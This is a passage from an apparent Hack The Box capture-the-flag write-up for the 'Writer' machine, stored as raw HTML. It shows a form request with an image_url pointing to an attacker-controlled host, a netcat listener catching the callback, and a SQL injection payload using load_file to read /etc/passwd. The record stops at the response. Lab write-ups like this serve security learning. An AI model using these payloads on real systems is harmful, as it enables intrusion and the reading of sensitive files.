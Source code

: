 </span><span class="c3">name</span><span class="c5">=</span><span class="c5 c12">&quot;title&quot;</span><span class="c5"><br><br>Writeup<br>-----------------------------12417370376638841362770592069<br>Content-Disposition: form-</span><span class="c3">data</span><span class="c5">; </span><span class="c3">name</span><span class="c5">=</span><span class="c5 c12">&quot;tagline&quot;</span><span class="c5"><br><br>Writeup<br>-----------------------------12417370376638841362770592069<br>Content-Disposition: form-</span><span class="c3">data</span><span class="c5">; </span><span class="c3">name</span><span class="c5">=</span><span class="c5 c12">&quot;image&quot;</span><span class="c5">; filename=</span><span class="c5 c12">&quot;&quot;</span><span class="c5"><br>Content-Type: application/octet-stream<br><br><br>-----------------------------12417370376638841362770592069<br></span><span class="c5 c7">Content-Disposition: form-</span><span class="c35 c7">data</span><span class="c5 c7">; </span><span class="c35 c7">name</span><span class="c5 c7">=&quot;image_url&quot;<br><br>http://10.10.15.80/image.jpg</span><span class="c5"><br>-----------------------------12417370376638841362770592069<br>Content-Disposition: form-</span><span class="c3">data</span><span class="c5">; </span><span class="c3">name</span><span class="c5">=</span><span class="c5 c12">&quot;content&quot;</span><span class="c5"><br><br>Thanks </span><span class="c3">for</span><span class="c5">&nbsp;reading!<br>-----------------------------12417370376638841362770592069--</span></p></td></tr></table><p class="c18"><span class="c38">Note the &ldquo;image_url&rdquo; parameter highlighted in red</span><span class="c1"><br></span></p><p class="c23"><span class="c56">Response</span></p><a id="t.b1a0f2c40331580d628ca2fc236fd6f670e7587b"></a><a id="t.3"></a><table class="c9"><tr class="c2"><td class="c14" colspan="1" rowspan="1"><p class="c27"><span class="c5">&#9484;&#9472;[&#10007;]&#9472;[0xd4y@Writeup]&#9472;[~/business/hackthebox/medium/linux/writer]<br>&#9492;&#9472;&#9472;&#9596; </span><span class="c5 c34">$sudo</span><span class="c5">&nbsp;nc -lvnp 80<br>listening on [any] 80 </span><span class="c3">..</span><span class="c5">.<br>connect </span><span class="c3">to</span><span class="c5">&nbsp;[10.10.15.80] </span><span class="c3">from</span><span class="c5">&nbsp;(UNKNOWN) [10.10.11.101] 38018<br></span><span class="c3">GET</span><span class="c5">&nbsp;/image.jpg HTTP/1.1<br>Accept-Encoding:</span><span class="c3">&nbsp;identity<br></span><span class="c5">Host: 10.10.15.80<br>User-Agent: Python-urllib/3.8<br>Connection: close</span></p></td></tr></table><p class="c15"><span class="c6"></span></p><p class="c18"><span class="c6">Judging from the user-agent, it was found that the server is running python. After failing to obtain code executions despite trying many different upload attacks, it follows that the source code of the upload feature must be leaked to determine how it works. </span></p><h3 class="c28" id="h.g4h70w2pg84e"><span>Leveraging</span><span class="c45 c37">&nbsp;SQLi to Read Local Files</span></h3><p class="c18"><span>This is possible via the </span><span class="c22">load_file</span><span class="c6">&nbsp;SQL function. Going back to the login page, this function can be used in conjunction with a union select statement to leak files:</span></p><p class="c18"><span class="c6">&nbsp;</span></p><p class="c23"><span class="c56">Payload</span></p><a id="t.1024ecfaa765e83bdddbd3434c8091320cc2deb2"></a><a id="t.4"></a><table class="c9"><tr class="c2"><td class="c14" colspan="1" rowspan="1"><p class="c27"><span class="c5">uname=&#39;union select 1,load_file(&#39;/etc/passwd&#39;),3,4,5,6-- -&amp;password=a</span></p></td></tr></table><p class="c23 c50"><span class="c1"></span></p><p class="c23"><span class="c56">Response</span></p><a id="t.1b4adaccc79af479c5ff4f7301baee40d836c344"></a><a id="t.5"></a><table class="c9"><tr class="c2"><td class="c14" colspan="1" rowspan="1"><p class="c27"><span class="c5">Welcome